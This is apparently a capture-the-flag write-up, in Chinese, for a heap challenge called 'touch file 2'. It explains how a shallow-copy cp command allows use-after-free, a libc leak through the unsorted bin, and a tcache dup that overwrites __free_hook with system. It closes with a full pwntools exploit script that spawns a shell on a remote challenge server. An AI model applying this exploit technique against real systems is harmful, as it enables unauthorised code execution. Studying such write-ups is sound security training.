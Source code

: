 # touch file 2

## 文件分析

NX on, PIE on, Canary off, RELRO full  
ghidra分析为64位程序  
glibc: 2.31

## 解题思路

程序模拟了命令行的执行，是一道简单堆题，主要利用点在cp命令上，
浅拷贝的模式使得uaf、double free十分容易

这道题中分配单元固定，为0x80，分配的chunk大小为0x91，首先分配7个耗尽tcache，
然后分配一个在unsorted bin中，cp+rm+cat读取main_arena，推出libcBase；
再进行tcache dup，把`__free_hook`写上system，最后给一个chunk上写上/bin/sh，
free它就能拿到shell

## 踩过的坑

1. strncpy函数会将size中未输入的部分全部填0，并且复制时是'\0'截断的！这点要注意
2. 这题附件给了ld，给了libc，但是libstdc++之类的其他依赖都没给，这时候借助docker，
下载一个ubuntu容器可以快速解决问题（主要是本地的libcstdc++依赖高版本libc）
3. 手动释放一个chunk到unsorted bin中需要满足对应的后一个chunk处(&chunk + size)
的P位设为1
4. 当getline得到一个超长输入时，会分配一个chunk，用完后释放，可以考虑写入大量垃圾字符，
来触发`malloc_consolidate`（不是用在这题）

## EXPLOIT

```python
# 类型注释包含新版本特性，如无法运行，建议把类型注释删掉
from pwn import *
def execute(*args: str | bytes):
    global sh
    sh.recvuntil(b'>')
    sh.sendline(b' '.join(map(lambda arg: arg.encode() if isinstance(arg, str) else arg, args)))

def payload(lo):
    global sh
    if lo:
        sh = process('./touch_file2')
        if lo & 0b10:
            gdb.attach(sh, gdbscript = 'b *$rebase(0x1ab1)')
    else:
        sh = remote('43.249.195.138', 21815)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.31-0ubuntu9.12_amd64/libc-2.31.so')# strncpy 会向dest中补充\0字符！！

    execute('touch', 'a')
    execute('touch', 'b')
    execute('touch', 'c')
    execute('touch', 'd')
    execute('touch', 'e')
    execute('touch', 'f')
    execute('touch', 'g')
    execute('touch', 'h')
    execute('rm', 'h')
    execute('rm', 'g')
    execute('rm', 'f')
    execute('rm', 'e')
    execute('rm', 'd')
    execute('rm', 'c')
    execute('rm', 'b')

    execute('cp', 'a', 'aa')
    execute('rm', 'aa') # tcache full (7), free in unsorted bin
    execute('cat', 'a') # print fd (main_arena)

    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(sh.recvline()[-7:-1] + b'\0\0') - 0x60 # sub unsorted bin offset
    libcBase = mainArena - dumpArena
    freeHook = libcBase + libc.symbols['__free_hook']
    system = libcBase + libc.symbols['system']

    execute('touch', 'b')
    execute('touch', 'c')
    execute('touch', 'd')
    execute('touch', 'e') # alloc some chunks to consume tcache for tcache dup

    execute('touch', 'x')
    execute('cp', 'x', 'xx')
    execute('rm', 'xx')
    # tcache linked list status
    # head -> x -> f -> g -> h
    execute('edit', 'x', p64(freeHook))  # next = freeHook, key = 0
    # head -> x -> freeHook -> NULL
    execute('touch', 'y', p64(freeHook)) # next = freeHook, key = 0; without this content, next = 0
    # head -> freeHook -> NULL
    execute('touch', 'z', p64(system))   # modify *freeHook = system
    execute('edit', 'c', '/bin/sh')
    execute('rm', 'c') # free(chunk), *chunk => "/bin/sh", execute system("/bin/sh")

    sh.interactive()

payload(0)
```

Done.

